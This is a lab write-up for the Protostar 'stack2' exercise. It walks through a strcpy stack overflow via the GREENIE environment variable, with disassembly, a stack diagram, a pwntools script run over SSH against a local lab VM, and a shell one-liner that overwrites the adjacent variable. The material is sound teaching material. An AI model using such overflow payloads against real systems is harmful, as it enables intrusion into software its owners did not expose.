

# Stack 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Goal: Modify the content of the variable 'modified' with 0x0d0a0d0a 


# Static analysis : 

```asm
0x08048494 <main+0>:	push   ebp
0x08048495 <main+1>:	mov    ebp,esp
0x08048497 <main+3>:	and    esp,0xfffffff0
0x0804849a <main+6>:	sub    esp,0x60
0x0804849d <main+9>:	mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:	call   0x804837c <getenv@plt>
0x080484a9 <main+21>:	mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:	cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:	jne    0x80484c8 <main+52>
0x080484b4 <main+32>:	mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:	mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:	call   0x80483bc <errx@plt>
0x080484c8 <main+52>:	mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:	mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:	mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:	lea    eax,[esp+0x18]       <----4) eax points on [esp+0x18]
0x080484dc <main+72>:	mov    DWORD PTR [esp],eax      <--- 3) first argument of strcpy 'buffer' points on eax
0x080484df <main+75>:	call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:	mov    eax,DWORD PTR [esp+0x58]    <---2)  'modified' buffer start at [esp+0x58]
0x080484e8 <main+84>:	cmp    eax,0xd0a0d0a            <-- 1) value taken by 'modified' is store in eax
0x080484ed <main+89>:	jne    0x80484fd <main+105>
0x080484ef <main+91>:	mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:	call   0x80483cc <puts@plt>
0x080484fb <main+103>:	jmp    0x8048512 <main+126>
0x080484fd <main+105>:	mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:	mov    eax,0x8048641
0x08048506 <main+114>:	mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:	mov    DWORD PTR [esp],eax
0x0804850d <main+121>:	call   0x80483ac <printf@plt>
0x08048512 <main+126>:	leave  
0x08048513 <main+127>:	ret 

```

The stack look like this

```
  |  |                     |
  |  |     modified        | 
  |  |                     | 
  |  |---------------------|esp+0x58 (esp+88)
  |  |                     |
  |  |       buffer        |   
  |  |                     |
  |  |---------------------|esp+0x18  (esp+24)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v

```

We can modify the content of the variable 'modified' since 'buffer' is located before 'modified' on the stack.

Let's how calculate how many bytes we should write in 'buffer' to overwrite 'modified' : 
``` 
    0x58 - 0x18 = 64 

```
We need to fill 'buffer' with 64 bytes and then we can overwrite 'modified'


This time the vulnerability comes from the function 'strcpy', actually there isn't any check on the length of 'variable' (which is a copy of the environnement variable called 'GREENIE') before the  copy of it in 'buffer'.


  

# Script


```python
from pwn import *

r = ssh(host='192.168.160.128', user='user', password='user')

payload =b'A'*64 + p32(0x0d0a0d0a) 

sh = r.run('/opt/protostar/bin/stack2', env={'GREENIE':payload})

print(sh.recvline().decode())

```
And we got our response : 





If you prefered to do the exploit directly on the protostar vm you can do like this : 

```
user@protostar:~$ export GREENIE=`python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'"`
user@protostar:~$ /opt/protostar/bin/stack2
you have correctly modified the variable

```


Thank you for reading and hope you learn something ! 

